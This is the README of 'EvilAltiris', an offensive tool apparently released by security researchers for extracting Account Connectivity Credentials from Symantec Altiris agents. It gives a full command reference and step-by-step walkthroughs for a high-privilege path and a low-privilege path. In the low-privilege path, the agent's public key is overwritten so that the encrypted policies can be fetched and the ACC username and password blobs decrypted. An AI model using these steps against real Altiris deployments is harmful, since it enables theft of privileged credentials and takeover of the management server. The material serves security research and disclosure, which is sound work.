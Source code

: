 # EvilAltiris

Tool for extracting Account Connectivity Credentials (ACCs) from Symantec Management Agent (Altiris). In a default configuration, the credentials for the ACC are the same as those used for the Notification Server account. As the Notification Server account must have Local Administator rights on the Notification Server itself, this allows for a full takeover of the server in default installs.

This tool supports two modes of operation, one from an elevated (SYSTEM) process and another from a low privileged (domain user) process.

```
Usage: EvilAltiris <command> <args>

SMATool Commands (requires elevation and SMATool.exe on disk):

SmaGetPublicKey         -       Return the current public key value for the agent from the LDB
SmaGetTypeGuid          -       Fetch the type GUID from a machine joined to Altiris (requires elevation and SMATool.exe on disk)
SmaDecrypt              -       Decrypt encrypted policy data or ACC (requires elevation and SMATool.exe on disk)

Generic Commands (no elevation or SMATool.exe required):

GetClientPolicies       -       Request encrypted policies from Altiris server
GetMachineGuid          -       Read the current machineGuid value from the registry
GenerateKeys            -       Generate a new public / private key pair and policyKey blob
SetPublicKey            -       Overwrite the public key (policyKey) value for an existing machineGuid
DecryptPolicy           -       Decrypt encrypted policy data with private key XML
DecryptAcc              -       Decrypt an encrypted Account Connectivity Credential (ACC) blob
RestoreAgent            -       Force the agent to make a request to CreateResource.aspx to restore the existing agent public key

Arguments:

/smapath        -       Path to SMATool.exe on disk for any SMATool commands
/url            -       Notification Server target including the protocol e.g http://server.local
/key            -       XML string representing a private key for decryption or policyKey value
/data           -       Data to decrypt, can be either a file on disk containing binary data or a base64 string
/machine        -       Machine Guid for the agent
/type           -       Type Guid for the agent
/outfile        -       (Optional) outfile for the returned data

Example usage:

EvilAltiris.exe SmaGetPublicKey /smatool:C:\tools\smatool.exe
EvilAltiris.exe SmaGetTypeGuid /smatool:C:\tools\smatool.exe
EvilAltiris.exe SmaDecrypt /smatool:C:\tools\smatool.exe /data:AAA4xIqgq7WOIYvNqAXSaxh

EvilAltiris.exe GetClientPolicies /url:http://altiris.local /machine:{C07989E4-5473-4856-9752-8907FFCC506A} /type:{493435F7-3B17-4C4C-B07F-C23E7AB7781F}
EvilAltiris.exe GetMachineGuid
EvilAltiris.exe GenerateKeys
EvilAltiris.exe SetPublicKey /key:AAA4xIqgq7WOIYvNqAXSaxh /url:http://altiris.local /machine:{C07989E4-5473-4856-9752-8907FFCC506A}
EvilAltiris.exe DecryptPolicy /key:<RSAKeyValue><Modulus>3F7JlI</D></RSAKeyValue> /data:encrypted_policy.dat
EvilAltiris.exe DecryptAcc /data:AAA4xIqgq7WOIYvNqAXSaxh
EvilAltiris.exe RestoreAgent
```

# Usage

## High Privilege

**Step 1:**

Retrieve the MachineGuid value from the registry.

`EvilAltiris.exe GetMachineGuid`

**Step 2:**

Upload the SMATool.exe binary to the host and fetch the TypeGuid value providing the path on disk to SMATool.exe.

`EvilAltiris.exe SmaGetTypeGuid /smapath:Z:\tools\SMATool.exe`

**Step 3:**

Fetch the encrypted agent policy data from the Notification Server URL providing the `MachineGuid` and `TypeGuid` values from the prior commands. 

**Note**: The server URL can be found within the registry subkey `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Altiris\Altiris Agent\Servers\`

`EvilAltiris.exe GetClientPolicies /url:http://dc.initech.local /machine:{114B7178-2E4E-4071-81DF-919B3F10E0C2} /type:{2c3cb3bb-fee9-48df-804f-90856198b600} /outfile:Z:\policy_data_encrypted.dat`

**Step 4:**

Decrypt the returned agent policy data. A filename or base64 encoded binary blob can be provided.

`EvilAltiris.exe SmaDecrypt /smapath:Z:\tools\SMATool.exe /data:Z:\policy_data_encrypted.dat`

**Step 5:**

Decrypt the encrypted ACC blob contained within the decrypted policy data. The encrypted values are stored within the `userName_Secure_Attribute` and `userPassword_SecureAttribute` XML tags.

`EvilAltiris.exe SmaDecrypt /smapath:Z:\tools\SMATool.exe /data:AwCWjVk9oCVKSGAwMcGdrHee24NhmeSpLOyxpDXmlYRpV+TvK9gHFCvJ0yufRspbKCiov0x410jG1QMn9lpGBx2liuEkfAhAc/NRyFxdgHBrIHJBrnyTewabSkLVItDvfN3XKc9MTG6vaWlFs2aC/y2Z`

## Low Privilege

**Step 1:**

Retrieve the MachineGuid value from the registry.

`EvilAltiris.exe GetMachineGuid`

**Step 2:**

Generate a new public / private key pair and policyKey blob. 

`EvilAltiris.exe GenerateKeys`

**Step 3:**

Overwrite the existing public key (policyKey) value for a given MachineGuid obtained from the previous command. 

**Note**: The server URL can be found within the registry subkey `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Altiris\Altiris Agent\Servers\`

`EvilAltiris.exe SetPublicKey /key:AAAAAQAB6ToNQTGhCxw11elvVzGM9bfDNmqBXxncrbRINgifN5eKbQEHCPyAQTJWU4ayqgQHKpc1157CL7naW6Qyuka5Qx5t0h/k6VgQPwk7YMW4q6d7lZjw6gRXB5g0nfoLh8KOauwOMqEokByNlN4gy92D7bU62WTvyxtnxF/cArP0GVz8aCX45icl9SOKdJ4cXWlZW7kOqyNmAty6y17WaciQXo0Fg6U/Qy+5wc419tyqQyuh1CDeViDa+CY0aVAEqYYohB+D6217wrs/BuO/9gFXcqMsCB10zT9+F9xAG8XXKf1RblKCnGkeObeMYpFC2w85A2DrP5KR0ISBM+X8X8ARsQ== /url:http://dc.initech.local /machine:{D4FB6018-B7A2-4A79-8460-6F933F6127D0}`

**Step 4:**

Fetch the encrypted agent policy data from the Notification Server URL providing the `MachineGuid` and `TypeGuid` values from the prior commands. The `TypeGuid` value can be found in the response data returned from the `SetPublicKey` command.

`EvilAltiris.exe GetClientPolicies /url:http://dc.initech.local /machine:{114B7178-2E4E-4071-81DF-919B3F10E0C2} /type:{2c3cb3bb-fee9-48df-804f-90856198b600} /outfile:C:\Users\domain_user\policy_data_encrypted.dat`

**Step 5:**

Decrypt the returned agent policy data providing the `/key` argument corresponding to the private key value outputted by the `GenerateKeys` command. For `/data` argument a filename or base64 encoded binary blob can be provided.

`EvilAltiris.exe DecryptPolicy /data:C:\Users\domain_user\policy_data_encrypted.dat /key:"<RSAKeyValue></RSAKeyValue>"`

**Step 6:**

Decrypt the encrypted ACC blob contained within the decrypted policy data. The encrypted values are stored within the `userName_Secure_Attribute` and `userPassword_SecureAttribute` XML tags.

`EvilAltiris.exe DecryptAcc /data:AwCWjVk9oCVKSGAwMcGdrHeeGgb3zP+X1URujyeX9sSNCg865meVAxDjjwu7yrMiwtTpaWgLOUhygNQtV0yxThWyn2DDXJqCdz1T9mGG48zII+NNveML/gFuMrvHxS8BJZC+Bd6tdUl9mG7tuYlw5JKLckGufJN7BptKQtUi0O983dcpz0xMbq9paUWzZoL/LZk=`

**Step 7:**

Restore the original public key value currently stored within the LDB on the machine. This will restore the agent to its original state prior to the exploit. 

`EvilAltiris.exe RestoreAgent`

# References
See accompanying blog post here https://www.mdsec.co.uk/2024/12/extracting-account-connectivity-credentials-accs-from-symantec-management-agent-aka-altiris/
